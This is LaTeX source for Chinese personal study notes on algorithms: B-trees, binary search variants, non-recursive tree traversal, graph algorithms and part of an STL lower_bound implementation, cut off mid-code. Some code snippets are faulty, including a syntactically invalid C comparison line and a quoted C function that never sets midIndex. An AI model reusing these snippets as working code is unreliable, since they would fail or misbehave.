\documentclass[10pt,winfonts,fancyhdr,hyperref,UTF8]{ctexrep}
\usepackage{indentfirst} 
\usepackage{fontspec}
\usepackage{titlesec}
\usepackage{xeCJK}
\usepackage{graphicx}
\usepackage{ifthen}
\usepackage{color,fancyvrb}
\usepackage{listings}
\usepackage{syntonly}
\usepackage{makeidx}
\usepackage[hidelinks, colorlinks=true]{hyperref}
\usepackage{algorithm}
\usepackage{algpseudocode}
\usepackage{amssymb}
\usepackage{multirow}
\usepackage{ulem}
\usepackage{diagbox}
\makeatletter
%LeetCode Setting
\usepackage[centering,paperwidth=180mm,paperheight=230mm,%
body={390pt,530pt},marginparsep=10pt,marginpar=50pt]{geometry}
\usepackage{color}
\usepackage{enumitem}
\usepackage{fancyvrb}
\usepackage[bottom,perpage,symbol*]{footmisc}
\usepackage{graphicx}
\usepackage[hidelinks]{hyperref}
\usepackage{makeidx}
\usepackage[toc]{multitoc}
\usepackage{pifont}
\usepackage{underscore}
\usepackage{amsmath}

\DefineFNsymbols*{chinese}{{\ding{172}}{\ding{173}}{\ding{174}}{\ding{175}}%
{\ding{176}}{\ding{177}}{\ding{178}}{\ding{179}}{\ding{180}}{\ding{181}}}
\setfnsymbol{chinese}

\hypersetup{bookmarksnumbered=true,bookmarksdepth=2}

\CTEXsetup[number={\thechapter}]{chapter}
\CTEXsetup[format+={\raggedleft}]{chapter}
\CTEXsetup[beforeskip={10pt}]{chapter}
\CTEXsetup[afterskip={30pt}]{chapter}
\def\CTEX@chapter@aftername{\par} % \CTEXsetup[aftername={\par}]{chapter}
\CTEXsetup[format+={\raggedright}]{section}
\CTEXsetup[beforeskip={-3.0ex plus -1ex minus -.2ex}]{section}
\CTEXsetup[afterskip={2.3ex plus .2ex minus 0.2ex}]{section}

\renewcommand \thefigure{\thechapter-\arabic{figure}}
\renewcommand \thetable{\thechapter-\arabic{table}}

\newcommand\figcaption[1]{\def\@captype{figure}\caption{#1}}
\newcommand\tabcaption[1]{\def\@captype{table}\caption{#1}}

\long\def\@caption#1[#2]#3{%
  \addcontentsline{\csname ext@#1\endcsname}{#1}%
    {\protect\numberline{\csname fnum@#1\endcsname}{ \ignorespaces #2}}% change "the" to "fnum@"
    \normalsize
    \@makecaption{\csname fnum@#1\endcsname}{\ignorespaces #3}}

\long\def\@makecaption#1#2{%
  \vskip\abovecaptionskip
  \sbox\@tempboxa{#1\quad#2}%
  \ifdim \wd\@tempboxa >\hsize
    #1\quad#2\par
  \else
    \global \@minipagefalse
    \hb@xt@\hsize{\hfil\box\@tempboxa\hfil}%
  \fi
  \vskip\belowcaptionskip}

\setlength\abovecaptionskip{0pt}
  
\setmainfont{Times New Roman}
%\setmainfont{Linux Libertine}
%\setmainfont{TeX Gyre Pagella}
\newfontfamily\urlfont{Times New Roman}
%\setmonofont[AutoFakeBold=1.6,AutoFakeSlant=0.17,Mapping=tex-text-tt]{Inconsolata}
\setCJKfamilyfont{zhyou}{YouYuan}

\newcommand{\fn}[1]{\texttt{#1}}
\newcommand{\sfn}[1]{\texttt{\small #1}}
\newcommand{\kw}[1]{\textsf{#1}}
\newcommand{\myurl}[1]{{\urlfont #1}}
\newcommand{\mpar}[1]{\marginpar[\hfill\kaishu #1]{\kaishu #1}}
\newcommand{\mn}[1]{\texttt{\bs #1}}
\renewcommand{\today}{\the\year-\the\month-\the\day}
\newcommand\bs{\textbackslash}
\newcommand{\code}[1]{\small{\fontspec{Latin Modern Mono} #1}}

\newcommand\begindot{\begin{itemize}
[itemsep=2pt plus 2pt minus 2pt,%
topsep=3pt plus 2pt minus 2pt,%
parsep=0pt plus 2pt minus 2pt]}
\newcommand\myenddot{\end{itemize}}

\newcommand\beginnum{\begin{enumerate}
[itemsep=2pt plus 2pt minus 2pt,%
topsep=3pt plus 2pt minus 2pt,%
parsep=0pt plus 2pt minus 2pt]}
\newcommand\myendnum{\end{enumerate}}

\DefineVerbatimEnvironment%
  {Code}{Verbatim}
  {fontsize=\small,baselinestretch=0.9,xleftmargin=3mm}

\raggedbottom
%\setlength{\parskip}{1ex plus .5ex minus .5ex}

\def\FV@SetLineWidth{%
  \if@FV@ResetMargins\else
    \advance\leftmargin\@totalleftmargin
  \fi
  \advance\leftmargin\FV@XLeftMargin\relax
  \advance\rightmargin\FV@XRightMargin\relax
  \linewidth\hsize
  %\advance\linewidth-\leftmargin
  %\advance\linewidth-\rightmargin
  \hfuzz\FancyVerbHFuzz\relax}


\def\FV@SingleFrameLine#1{%
%% DG/SR modification end
  \hbox to\z@{%
    %\kern\leftmargin
%% DG/SR modification begin - Jun. 22, 1998
    \ifnum#1=\z@
      \let\FV@Label\FV@LabelBegin
    \else
      \let\FV@Label\FV@LabelEnd
    \fi
    \ifx\FV@Label\relax
%% DG/SR modification end
      \FancyVerbRuleColor{\vrule \@width\linewidth \@height\FV@FrameRule}%
%% DG/SR modification begin - Jun. 22, 1998
    \else
      \ifnum#1=\z@
        \setbox\z@\hbox{\strut\enspace\urlfont\FV@LabelBegin\strut}%
      \else
        \setbox\z@\hbox{\strut\enspace\urlfont\FV@LabelEnd\strut}%
      \fi
      \@tempdimb=\dp\z@
      \advance\@tempdimb -.5\ht\z@
      \@tempdimc=\linewidth
      \advance\@tempdimc -\wd\z@
      %\divide\@tempdimc\tw@
      \ifnum#1=\z@              % Top line
        \ifx\FV@LabelPositionTopLine\relax
          \FancyVerbRuleColor{\vrule \@width\linewidth \@height\FV@FrameRule}%
        \else
          \FV@FrameLineWithLabel
        \fi
      \else                     % Bottom line
        \ifx\FV@LabelPositionBottomLine\relax
          \FancyVerbRuleColor{\vrule \@width\linewidth \@height\FV@FrameRule}%
        \else
          \FV@FrameLineWithLabel
        \fi
      \fi
    \fi
%% DG/SR modification end
    \hss}}


%% DG/SR modification begin - May. 19, 1998
\def\FV@FrameLineWithLabel{%
  \ht\z@\@tempdimb\dp\z@\@tempdimb%
  \FancyVerbRuleColor{%
    \raise 0.5ex\hbox{\vrule \@width\@tempdimc \@height\FV@FrameRule}%
    \raise\@tempdimb\box\z@}}
%% DG/SR modification end


\def\FV@EndListFrame@Lines{%
  \begingroup
    %\vskip 0.5ex
    \baselineskip\z@skip
    \kern\FV@FrameSep\relax
%% DG/SR modification begin - May. 19, 1998
%%    \FV@SingleFrameLine
    \FV@SingleFrameLine{\@ne}%
%% DG/SR modification end
  \endgroup}

\newskip\mytopsep
\setlength{\mytopsep}{4pt plus 2pt minus 3pt}

\def\FV@ListVSpace{%
  \@topsepadd\mytopsep
  \if@noparlist\advance\@topsepadd\partopsep\fi
  \if@inlabel
    \vskip\parskip
  \else
    \if@nobreak
      \vskip\parskip
      \clubpenalty\@M
    \else
      \addpenalty\@beginparpenalty
      \@topsep\@topsepadd
      \advance\@topsep\parskip
      \addvspace\@topsep
    \fi
  \fi
  %\showthe \@topsepadd
  %\showthe \topsep
  %\showthe \partopsep
  %\showthe \parskip
  \global\@nobreakfalse
  \global\@inlabelfalse
  \global\@minipagefalse
  \global\@newlistfalse}

\def\FV@EndList{%
  \FV@ListProcessLastLine
  \FV@EndListFrame
  %\showthe \@topsepadd
  \@endparenv
  \endgroup
  \@endpetrue}

\def\theFancyVerbLine{\sffamily\scriptsize\arabic{FancyVerbLine}}

\DefineVerbatimEnvironment%
  {Codex}{Verbatim}
  {fontsize=\small,baselinestretch=0.9,xleftmargin=3mm,%
  frame=lines,labelposition=all,framesep=5pt}

\DefineVerbatimEnvironment%
  {Code}{Verbatim}
  {fontsize=\small,baselinestretch=0.9,xleftmargin=3mm}

\makeindex

%Other settings:
\lstset{%  
  alsolanguage=Java,  
  language={C++},
  tabsize=4, %  
  frame=shadowbox, %把代码用带有阴影的框圈起来  
  commentstyle=\color{red!50!green!50!blue!50},%浅灰色的注释  
  rulesepcolor=\color{red!20!green!20!blue!20},%代码块边框为淡青色  
  keywordstyle=\color{blue!90}\bfseries, %代码关键字的颜色为蓝色,粗体  
  showstringspaces=false,%不显示代码字符串中间的空格标记  
  stringstyle=\ttfamily, % 代码字符串的特殊格式  
  keepspaces=true, %  
  breakindent=22pt, %  
  numbers=left,%左侧显示行号 往左靠,还可以为right,或none,即不加行号  
  stepnumber=1,%若设置为2,则显示行号为1,3,5,即stepnumber为公差,默认stepnumber=1  
  %numberstyle=\tiny, %行号字体用小号  
  numberstyle={\color[RGB]{0,192,192}\tiny} ,%设置行号的大小,大小有tiny,scriptsize,footnotesize,small,normalsize,large等  
  numbersep=8pt,  %设置行号与代码的距离,默认是5pt  
  basicstyle=\footnotesize, % 这句设置代码的大小  
  showspaces=false, %  
  flexiblecolumns=true, %  
  breaklines=true, %对过长的代码自动换行  
  breakautoindent=true,%  
  breakindent=4em, %  
  aboveskip=1em, %代码块边框  
  tabsize=2,  
  showstringspaces=false, %不显示字符串中的空格  
  backgroundcolor=\color[RGB]{245,245,244},   %代码背景色  
}















\makeatother
%\graphicspath{{images/}}

\usepackage{tikz}
\usetikzlibrary{calc}
\usetikzlibrary{fit}
\usetikzlibrary{positioning}
\usepgflibrary{plotmarks}

\usetikzlibrary{shapes.geometric}

\CustomVerbatimEnvironment{shellcmd}{Verbatim}
{frame=single,rulecolor=\color{blue},framerule=3pt,framesep=1pc,fillcolor=\color{yellow}}

\newcommand{\bookname}{TechNotes}
\renewcommand{\contentsname}{TechNotes} 

\title{\sffamily TechNotes}
\date{\today}
\setcounter{tocdepth}{1}
\setcounter{chapter}{0}

\begin{document}

%\maketitle
\tableofcontents


%TOADD
%!Mode:: "TeX:UTF-8"
\chapter{算法}

%!Mode:: "TeX:UTF-8"
\section{B树及其变体}

\subsection{B树}
B树(B-tree)是一种树状数据结构,它能够存储数据、对其进行排序并允许以O(log n)的时间复杂度运行进行查找、顺序读取、插入和删除的数据结构。B树,概括来说是一个节点可以拥有多于2个子节点的二叉查找树。与自平衡二叉查找树不同,B树为系统最优化大块数据的读和写操作。B-tree算法减少定位记录时所经历的中间过程,从而加快存取速度。普遍运用在数据库和文件系统。

\begin{figure}[ht]
	\begin{center}
		
\includegraphics[keepaspectratio,width=0.6\paperwidth]{Pictures/BTree/BTreeBlogPicture.jpg}
	\caption{B树}
	\label{fig:BTreeBlogPicture}
	\end{center}
\end{figure}


根据Knuth的定义,m阶B树符合下列条件:
\begin{enumerate}
  \item 每个结点至多有m个子结点
  \item 除根结点外,非叶结点至少有$\lceil m/2 \rceil$ 个子结点
  \item 根结点至少有两个子结点,除非它是叶结点
  \item 非叶结点的关键词树比其子结点树少1
  \item 叶结点在同一层
\end{enumerate}
树的高度$h$(如果根结点为叶节点,高度为0)满足:$h \le \log_{\lceil m/2 \rceil}(\frac{n+1}{2})$。其中$n$为关键词数。

\subsection{B树操作}

\subsubsection{B树的搜索search(root, target)}
从root出发,对每个节点,找到大于或等于target关键字中最小的K[i],如果K[i]与target相等,则查找成功;否则在P[i]中递归搜索target,直到到达叶子节点,如仍未找到则说明关键字不在B树中,查找失败。
 
\subsubsection{B树的插入,insert(root, target)}
B树的插入需要沿着搜索的路径从root一直到叶节点,根据B树的规则,每个节点的关键字个数在[t-1, 2t-1]之间,故当target要加入到某个叶子时,如果该叶子节点已经有2t-1个关键字,则再加入target就违反了B树的定义,这时就需要对该叶子节点进行分裂,将叶子以中间节点为界,分成两个包含t-1个关键字的子节点,同时把中间节点提升到该叶子的父节点中,如果这样使得父节点的关键字个数超过2t-1,则要继续向上分裂,直到根节点,根节点的分裂会使得树加高一层。
 
上面的过程需要回溯,那么能否从根下降到叶节点后不回溯就能完成节点的插入呢?答案是肯定的,核心思想就是未雨绸缪,在下降的过程中,一旦遇到已满的节点(关键字个数为2t-1),就就对该节点进行分裂,这样就保证在叶子节点需要分裂时,其父节点一定是非满的,从而不需要再向上回溯。
 
\subsubsection{B树的删除,delete(root, target)}
在删除B树节点时,为了避免回溯,当遇到需要合并的节点时就立即执行合并,B树的删除算法如下:从root向叶子节点按照search规律遍历:
\begin{enumerate}
\item 如果target在叶节点x中,则直接从x中删除target,
情况(2)和(3)会保证当再叶子节点找到target时,肯定能借节点或合并成功而不会引起父节点的关键字个数少于t-1。
\item  如果target在分支节点x中:
	\begin{enumerate}
		\item 如果x的左分支节点y至少包含t个关键字,则找出y的最右的关键字prev,并替换target,并在y中递归删除prev。
		\item 如果x的右分支节点z至少包含t个关键字,则找出z的最左的关键字next,并替换target,并在z中递归删除next。
		\item 否则,如果y和z都只有t-1个关键字,则将targe与z合并到y中,使得y有2t-1个关键字,再从y中递归删除target。
	\end{enumerate}
\item 如果关键字不在分支节点x中,则必然在x的某个分支节点p[i]中,如果p[i]节点只有t-1个关键字:
	\begin{enumerate}
		\item 如果p[i-1]拥有至少t个关键字,则将x的某个关键字降至p[i]中,将p[i-1]的最大节点上升至x中。
		\item 如果p[i+1]拥有至少t个关键字,则将x个某个关键字降至p[i]中,将p[i+1]的最小关键字上升至x个。
		\item 如果p[i-1]与p[i+1]都拥有t-1个关键字,则将p[i]与其中一个兄弟合并,将x的一个关键字降至合并的节点中,成为中间关键字。
	\end{enumerate}
\end{enumerate}

\subsection{B+树和B*树数}
B+树是B树的变体,也是一种多路搜索树,其定义基本与B树同,除了:
\begin{enumerate}
  \item 非叶子结点的子树指针与关键字个数相同
  \item 非叶子结点的子树指针P[i],指向关键字值属于[K[i], K[i+1])的子树(B-树是开区间)
  \item 所有关键字都在叶子结点出现, 所有叶子结点增加一个链指针
\end{enumerate}
 B+的搜索与B-树也基本相同,区别是B+树只有达到叶子结点才命中(B-树可以在
非叶子结点命中),其性能也等价于在关键字全集做一次二分查找。

\begin{figure}[ht]
	\begin{center}
		
\includegraphics[keepaspectratio,width=0.6\paperwidth]{Pictures/BTree/BplusTree-wiki.png}
	\caption{B+树-维基百科图片}
	\label{fig:BplusTree-wiki}
	\end{center}
\end{figure}

B+树的特性:
\begin{enumerate}
  \item 所有关键字都出现在叶子结点的链表中(稠密索引),且链表中的关键字恰好是有序的
  \item 不可能在非叶子结点命中
  \item 非叶子结点相当于是叶子结点的索引(稀疏索引),叶子结点相当于是存储(关键字)数据的数据层
  \item 更适合文件索引系统
\end{enumerate}

\begin{figure}[ht]
	\begin{center}
		
\includegraphics[keepaspectratio,width=0.6\paperwidth]{Pictures/BTree/BPlusTree.jpg}
	\caption{B+树}
	\label{fig:BplusTree}
	\end{center}
\end{figure}

Windows 文件系统NTFS 在 FAT 和 HPFS(高性能文件系统)的基础上作了一系列改进(如支持元数据)并且使用了更复杂的数据结构(B+树)以便于提升性能、改善可靠性并降低磁盘空间利用率。

B*树是B+树的变体,在B+树的非根和非叶子结点再增加指向兄弟的指针。
B*树定义了非叶子结点关键字个数至少为(2/3)*M,即块的最低使用率为2/3(代替B+树的1/2)。

B+树的分裂:当一个结点满时,分配一个新的结点,并将原结点中1/2的数据复制到新结点,最后在父结点中增加新结点的指针;B+树的分裂只影响原结点和父结点,而不会影响兄弟结点,所以它不需要指向兄弟的指针;

B*树的分裂:当一个结点满时,如果它的下一个兄弟结点未满,那么将一部分数据移到兄弟结点中,再在原结点插入关键字,最后修改父结点中兄弟结点的关键字(因为兄弟结点的关键字范围改变了);如果兄弟也满了,则在原结点与兄弟结点之间增加新结点,并各复制1/3的数据到新结点,最后在父结点增加新结点的指针;所以,B*树分配新结点的概率比B+树要低,空间使用率更高。

\clearpage










%!Mode:: "TeX:UTF-8"
\section{缓存替换算法}
LFRU,2Q。



%!Mode:: "TeX:UTF-8"
\section{二分查找代码示例}

注意事项:除以2的操作可改为右移操作。

程序可以有多种写法,主要有如下区别:
\begin{itemize}
    \item 不变式区间的开闭性。不变式:待搜数据t不存在,或属于不变式区间。区间可以为[l,u]或(l,u]。区间的开闭性影响迭代更新的方式。
    \item 每次循环的比较操作次数,可以为1次或两次。每次循环如果作两次判断,效率较低,但循环次数可能会减少,因为可以直接发现目标退出循环。可以将等于比较合并到大于或小于比较中来减少判断。
\end{itemize}


当区间长度至少为3时,下轮迭代区间必能能够缩小。当区间长度为2或1时,按照\verb|m=(u+l)/2|计算到的中点m即为左端点l,如果区间端点按照l=m方式来更新,会导致区间不能缩小。当区间长度为1时,m同时等于l和u,当区间右端点按照u=m来更新时,也会发生区间不能缩小的情形,如编程不慎则会造成死循环。

如果采用全闭区间-两次比较的方式编程,u和l都不会直接赋为m,则只需确保区间长度大于零即可,无死循环之虞。如果区间存在开端,或者只进行一次比较,则需要慎重。

可以对算法提出额外要求,即当存在多个满足条件的值时,应能返回下标最低者。

如果数组长度为固定值,如1000,可以通过循环展开以进一步优化代码。
虽然二分搜索可以在log时间内完成搜索,但搜索后如果要插入新元素仍需要线性时间。不过,基于数组的连续操作具有很好的cache友好性。

\subsection{半闭区间,单次比较}
\cite{pp}9.3。 x[-1],x[n]作哨兵,但未真正访问。u和l都会直接赋为m,因此循环条件是区间长度至少为3,即l+1 != u。t包含于(l,u]。左边为开,能够保证返回最低下标。
\label{codes:binsort}

\begin{lstlisting}[language=C]

int binarysearch3(DataType t)
{	
	int l = -1, u = n, m;
	while (l+1 != u) {
		m = (l + u) >> 1;
		if (x[m] < t) l = m;
		else u = m;
	}
	if (u >= n || x[u] != t) return -1;
	return u;
}
\end{lstlisting}

然而,我并未发现为何将u初始化为n,而不是n-1。我认为初始化为n-1更简洁,相应代码为:
\begin{lstlisting}[language=Python]

#!/usr/bin/env python

"""
binary sort implementation
"""

def BinSort(x, t):
    l = -1
    u = len(x) - 1
    while u - l >= 2:
        m = l + (u - l) / 2;
        if x[m] < t:
            l = m
        else:
            u = m
    
    if x[u] == t:
        return u
    else: 
        return -1



if __name__ == '__main__':

    assert BinSort([2], 3) == -1
    assert BinSort([2], 2) == 0
    assert BinSort([2], 1) == -1
    assert BinSort([2, 3], 1) == -1
    assert BinSort([2, 3], 4) == -1
    assert BinSort([2, 3], 2) == 0
    assert BinSort([2, 3], 3) == 1
    assert BinSort([2, 3, 4], 3) == 1
    assert BinSort([2, 3, 4], 2) == 0
    assert BinSort([2, 3, 4], 4) == 2
    assert BinSort([2, 3, 4], 5) == -1
    assert BinSort([2, 3, 4], 1) == -1
    assert BinSort([2, 3, 4], 2.5) == -1
    assert BinSort([2, 3, 4], 3.5) == -1
    assert BinSort([2, 3, 4, 5], 3.5) == -1
    assert BinSort([2, 3, 4, 5], 4.5) == -1
    assert BinSort([2, 3, 4, 5], 4) == 2
    assert BinSort([2, 3, 4, 5], 0) == -1

\end{lstlisting}

\subsection{半闭区间双次比较}
将单次比较改为双次比较没有难度。只需要多加一次相等比较。

\begin{lstlisting}[language=C]

int binarysearch3(DataType t)
{	
	int l = -1, u = n, m;
	while (l+1 != u) {
		m = (l + u) / 2;
		if (x[m] < t) l = m;
		else if x[m] &=& t return m;
		else u = m;
	}
	if (u >= n || x[u] != t) return -1;
	return u;
}
\end{lstlisting}

\subsection{闭区间单比较}
\cite{self}一段Python代码:
\begin{lstlisting}[language=Python]

def binsearch(x, n, t):
    #range size >= 1
    assert n > 0

    if x[0] > t or x[n-1] < t: return -1;

    l = 0
    u = n-1
    while (u-l >= 1): 
        #x[l] <= t <= x[u], l == 0 or x[l-1] < t, range size >= 2
        m = l + (u - l) / 2;
        print "[%d - %d], %d"%(l,u,m)
        if x[m] < t: 
            l = m + 1
        else: 
            u = m
    
    #range size is 1 
    if x[l] == t: return l
    return -1

\end{lstlisting}

\cite{bop}3.11也给出了闭区间单次比较算法的实现,该实现不满足返回最小下标的条件。代码没有对输入参数进行检查,如果输入区间为零,程序功能可能与期望不符。书中认为求midIndex不可以相加除以2,以防溢出。其实如此大数本不太可能作为数组的长度。
因为l按照来l=m方式更新,所以区间长度为2时即需要退出循环。更新u的方式也过于保守,是按照开区间的方式进行更新。

其代码的Python等效版本写为:
\begin{lstlisting}[language=Python]

def binsearch(x,l,u,t):
    while (l < u - 1): #range lengh >= 3 
        m = l + (u - l) / 2;
        print "[%d - %d], %d"%(l,u,m)
        if x[m] <= t:
            l = m
        else: 
            u = m # better be u = m-1
    
    #range size is 2 or 1 
    if x[u] == t: return u
    if x[l] == t: return l
    return -1

\end{lstlisting}

原书程序为:

\begin{lstlisting}[language=C]
int bisearch(char** arr, int b, int e, char* v)
{
    int minIndex = b, maxIndex = e, midIndex;
    //循环结束有两种情况:
    //若minIndex为偶数则minIndex ==  maxIndex
    //否则就是minIndex ==  maxIndex -1
    while (minIndex < maxIndex -1)
    {
	minIndex = minIndex + (maxIndex - minIndex) / 2;
	if (strcmp(arr[minIndex], v) <= 0)
	{
	    minIndex = midIndex;
	}
	else
	{
	    //不需要minIndex - 1, 防止minIndex == maxIndex
	    maxIndex = midIndex;
	}
    }

    if (!strcmp(arr[maxIndex],v))//先判断序号最大的值
    {
	return maxIndex;
    }
    else if (!strcmp(arr[minIndex],v))
    {
	return minIndex;
    }
    else
    {
	return -1;
    }
}
\end{lstlisting}


\subsection{闭区间双次比较}
\cite{pp}5.1。t包含于[l,u]。u和l都不会赋值为m。循环条件是区间长度至少为1,即l<=u。退出循环则意味着无解。如果一开始元素个数就为零,自然无法进入循环,算作无解。
\begin{lstlisting}[language=C]
int binarysearch2(DataType t)
{	
	int l, u, m;
	l = 0;
	u = n-1;
	while (l <= u) //区间大于等于1 
	{
		m = (l + u) / 2;
		if (x[m] < t)
			l = m+1;
		else if (x[m] == t)
			return m;
		else /* x[m] > t */
			u = m-1;
	}

	return -1;
}


\end{lstlisting}

\cite{sedgewick}P99也给出了这种算法:

\begin{lstlisting}[language=Java]
private int rank(int key)
{ // Binary search.
    int lo = 0;
    int hi = a.length - 1;
    while (lo <= hi)
    { // Key is in a[lo..hi] or not present.
	int mid = lo + (hi - lo) / 2;
	if (key < a[mid]) hi = mid - 1;
	else if (key > a[mid]) lo = mid + 1;
	else
	return mid;
    }
    return -1;
}

\end{lstlisting}









%!Mode:: "TeX:UTF-8"

\section{代码:二叉树非递归遍历}

\begin{lstlisting}[language=C++]

#include <iostream>
#include <stack>
using namespace std;

struct Node {
    Node *left;
    Node *right;
    int data;
    Node(Node *l, Node *r, int d = 0) :left(l), right(r), data(d) { }
    void visit() {
        cout << data << endl;
    }
};

enum TreeTraverseWay {
    TREE_PRE_ORDER,
    TREE_MID_ORDER,
    TREE_POST_ORDER,
};

void TreeTraverse(Node *tree, int way)
{
    if (!tree) return;
    stack<Node*> s;
    Node sentinel(0, 0);
    s.push(&sentinel);//sentinel

    Node *pre = &sentinel;
    Node *cur = tree;

    //invariant: stack top is cur's parent, parent on top of a child
    while (cur != &sentinel) 
    {
        if (pre != cur->left && pre != cur->right) //top -> down
        {
            if (cur->left) {
                if (TREE_PRE_ORDER == way) cur->visit();
                s.push(cur);
                pre = cur;
                cur = cur->left;
            } else if (cur->right) {
                if (TREE_MID_ORDER == way) cur->visit();
                s.push(cur);
                pre = cur;
                cur = cur->right;
            } else {//cur is leaf
                cur->visit();
                pre = cur;
                cur = s.top();
                s.pop();
            }
        } 
        else //down -> top
        { 
            if (pre == cur->left && cur->right) {
                if (TREE_MID_ORDER == way) cur->visit();
                s.push(cur);
                pre = cur;
                cur = cur->right;
            } else { //no more children
                if (TREE_POST_ORDER == way) cur->visit();
                pre = cur;
                cur = s.top();
                s.pop();
            }
        }
    }
}

int main ()
{
    const int maxnode = 1<<4;
    Node *node[maxnode];
    for (int i = maxnode-1; i > 0; i--)
    {
        node[i] = new Node((i>=(maxnode>>1)?0:node[2*i]), (i>=(maxnode>>1)?0:node[2*i+1]), i);
    }

    Node *root = node[1];
    node[3]->left = 0;

    //TreeTraverse(root, TREE_PRE_ORDER);
    //TreeTraverse(root, TREE_POST_ORDER);
    TreeTraverse(root, TREE_MID_ORDER);

    for (int i = maxnode-1; i > 0; i--)
    {
        delete node[i];
    }

    return 0;
}

\end{lstlisting}

%!Mode:: "TeX:UTF-8"
\section{图相关算法}
图有邻接表和邻接矩阵两种表示方式。对于稠密图,$E=\Theta(|V|^2)$。

广度优先搜索(BFS)伪代码:
\begin{lstlisting}[language=bash]
BFS(G, s)
  for u ← V[G] - {s}
       do color[u] ← WHITE
          d[u] ← INFINITY
          p[u] ← NIL
  color[s] ← GRAY
  d[s] ← 0
  p[s] ← NIL
  Q ← Ø
  ENQUEUE(Q, s)
  while Q != Ø
      do u ← DEQUEUE(Q)
         for v ← Adj[u] 
             do if color[v] = WHITE
                   then color[v] ← GRAY
                        d[v] ← d[u] + 1
                        p[v] ← u
                        ENQUEUE(Q, v)
         color[u] ← BLACK
\end{lstlisting}
由于每个顶点出队、入队各一次,扫描邻接表时每个边被扫描一次(聚集分析),因此BFS的运行时间为$O(V+E)$。

%DFS是对前序遍历的推广。
%如果G是一棵树,由于$|E|=\Theta(|V|)$,那么该树的所有顶点在总时间$|E|$都能被访问到。
深度优先搜索(DFS)伪代码:
\begin{lstlisting}[language=bash]
DFS(G)
  for u ← V[G]
       do color[u] ← WHITE
          p[u] ← NIL
  time ← 0
  for u ← V[G]
       do if color[u] = WHITE
             then DFS-VISIT(u)

DFS-VISIT(u)
  color[u] ← GRAY
  d[u] ← ++time
  for v ← Adj[u] 
       do if color[v] = WHITE
             then p[v] ← u
                 DFS-VISIT(v)
  color[u] ← BLACK
  f[u] ← ++time
\end{lstlisting}
每个结点调用DFS-VISIT一次。利用聚集分析可知,DFS的运行时间为$O(V+E)$。

\subsection{单源最短路径}
对于路径无权值情形,使用广度优先搜索即可。

如果路径有\textbf{非负}权值,可使用Dijkstra算法。Dijkstra算法是贪心算法的很好的例子。




\begin{lstlisting}[language=bash]
DIJKSTRA(G, w, s)
  for u ← V[G] do 
      d[u] ←  infinity
      p[u] ← NIL
  d[s] ← 0
  S ← Ø
  Q ← V[G] 
  while Q != Ø
      do u ← EXTRACT-MIN(Q)
         S ← S + {u}
         for v ← Adj[u] do
             if d[v] > d[u] + w(u, v)
                then d[v] ← d[u] + w(u, v)
                     p[v] ← u
\end{lstlisting}
上述Q相当于未知节点集合。


不用堆时复杂度$O(V^2)$,对稠密图来说是最优的;
使用二叉堆时,运行时间$O((V+E)\lg V)$:这里松弛操作执行了$|E|$次,每次都会破坏优先级队列,导致$\lg V$的开销;
EXTRACT-MIN执行了$|E|$次,也导致$\lg V$的开销的开销。对于稀疏图,$E=o(V^2/ \lg V)$, 则相对$O(V^2)$的实现而言构成改进。
使用斐波那契堆时,松弛操作只有常数开销,运行时间能达到$O(V\lg V + E)$。

\subsection{最小生成树}
这里的最小生成树算法一般考虑无向图,因为有向图中找生成树比较困难。
只有连通图才有生成树。对于最小生成树,贪心算法是成立的,Prim和Kruskal都是贪心算法,区别是在于最小边的选取上。

Prim算法使得生成树一步一步增长,每一步,都对应一个已经添加到树上的顶点集,而其余顶点尚未加到树上。
Prim算法同Dijkstra算法的结构非常相似,除了簿记量不同,因此也有相同的时间复杂度。

key[v]是v到已知顶点(半拉子生成树)的最短的边,p[u]是导致key[v]改变的最后的顶点。
\begin{lstlisting}[language=bash]
MST-PRIM(G, w, r)
   for u ← V [G]
        do key[u] ← infinity
           p[u] ← NIL
   key[r] ← 0
   Q ← V [G]
   while Q != Ø 
        do u ← EXTRACT-MIN(Q)
           for v ← Adj[u] 
               do if v in Q and w(u, v) < key[v]
                    then p[v] ← u
                         key[v] ← w(u, v)
\end{lstlisting}

Kruskal算法连续地选择最小权值边,当不产生回路时就选中。它处理的是森林,起初有$|V|$个单结点树,算法终止时只有一颗树了。


Kruskal算法运行时间取决于不相交集合结构如何实现。
最坏运行时间$O(|E|\log|E|)$,由于$|E| < |V|^2)$,
也可表述为$O(|E|\log|V|)$。

\begin{lstlisting}[language=bash]
MST-KRUSKAL(G, w)
  A ← Ø
  for v ← V[G]
       do MAKE-SET(v)
  sort(E, w)
  for each edge (u, v) ← E, taken in nondecreasing order by weight
       do if FIND-SET(u) != FIND-SET(v)
             then A ← A + {(u, v)}
                  UNION(u, v)
  return A
\end{lstlisting}






















%!Mode:: "TeX:UTF-8"
\section{STL lower\_bound和upper\_bound实现}

两个算法用于在有序序列中定位到给定值的起止范围。
如果确实存在该值,lower\_bound返回第一个位置,upper\_bound返回最后一个位置的下一个位置。
如果不存在该值,均返回适合插入该值的位置,这个位置未必在STL风格的前闭后开[first,last)范围内,可能正位于last位置,
因此下列代码中保持搜索范围为双闭区间[first,last]。

\begin{lstlisting}[language=C++]

template <class ForwardIterator, class T, class Distance>
ForwardIterator __lower_bound(ForwardIterator first, ForwardIterator last,
                              const T& value, Distance*,
                              forward_iterator_tag) {
  Distance len = 0;
  distance(first, last, len);
  Distance half;
  ForwardIterator middle;

  while (len > 0) {
